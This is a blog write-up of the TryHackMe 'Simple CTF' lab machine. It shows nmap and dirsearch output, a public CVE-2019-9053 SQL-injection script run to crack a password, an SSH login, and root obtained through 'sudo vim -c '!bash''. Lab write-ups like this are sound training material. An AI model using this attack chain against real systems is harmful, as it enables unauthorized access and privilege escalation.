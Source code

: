 ```yaml
---
tagline: simplectf
title: Simple CTF | A Simple Writeup
description: A simple writeup for a simple machine.
banner: /blog/tryhackmeban2.png/
banner_alt: Banner of THM (if you find this the flag is csd{8r1N6_84CK_7H3_816_84N6_7H30rY})
date: '2024-02-19'
---
```

## Foreword

Keeping the intro concise, today I'll be tackling a THM machine created by [MrSeth6797](https://tryhackme.com/p/MrSeth6797). You can find this machine [here](https://tryhackme.com/room/easyctf).

## Question 1 & 2

- Starting with a NMAP scan

```bash:Terminal
❯ sudo nmap -sS -sV 10.10.221.233
Password:
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-18 22:46 EST
Nmap scan report for 10.10.221.233
Host is up (0.22s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.38 seconds
```

- To summarize, port 21 & 80 are open under port 1000 and ssh is running on the highest port.

## Dirsearch

```bash:Terminal
❯ dirsearch -u 10.10.221.233 --exclude-status 404,403

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /Users/vipin/reports/_10.10.221.233/_24-02-18_23-42-55.txt

Target: http://10.10.221.233/

[23:43:01] Starting:
[23:44:32] 200 -  540B  - /robots.txt
[23:44:35] 301 -  315B  - /simple  ->  http://10.10.221.233/simple/

Task Completed
```

- *robots.txt* shows nothing important but */simple* shows us some sort of homepage

## Question 3 & 4

- Towards the bottom, we see the site is powered by *cmsmadesimple*

![Image showing a potential vulnerability](/blog/simplectfpics/vulnerabilityclue1.png 'Fig.1')

- A simple search tells us that vulnerability is [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053) and it vulnerable to sqli.  

## Question 5

- Looking around the internet, we find [this POC script](https://github.com/Mahamedm/CVE-2019-9053-Exploit-Python-3) and the hint tells us to crack with [this](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/best110.txt) wordlist.

```bash:Terminal
❯ python3 csm_made_simple_injection.py -u http://10.10.159.250/simple/ --crack -w /Users/vipin/tech/CTFs/wordlists/best110.txt

[+] Salt for password found: <REDACTED>
[+] Username found: mitch
[+] Email found: admin@adw
[+] Password found: <REDACTED>
[+] Password cracked: <REDACTED>
```

## Questions 6 to 10 + Final Thoughts

- Now we can login through SSH with the username & password

```bash:Terminal
❯ ssh mitch@10.10.159.250 -p 2222
mitch@10.10.159.250's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ cat user.txt
<REDACTED>
```

- Looking in the home directory we find another user by the name of sunbath and running ```sudo -l``` we see that we can use vim to spawn a privileged shell (If you want to understand this better, check out [this](https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d) article)

```bash:Terminal
❯ sudo vim 

:r!whoami # using ":r!" we can run commands as root

root # and look it tells us we are root
```

- Tiny issue with that, most commands can't work

```bash:Terminal
$ sudo vim -c '!bash'
root@Machine:/# cd /root
root@Machine:~# ls
root.txt
root@Machine:~# cat root.txt
<REDACTED>
root@Machine:~#
```

"Voila! Another machine rooted! I had a blast and learnt some new things along the way. I hope you enjoyed this writeup. If you're hungry for more, feel free to check out other writeups [here](https://www.vipinb.xyz/blog)!
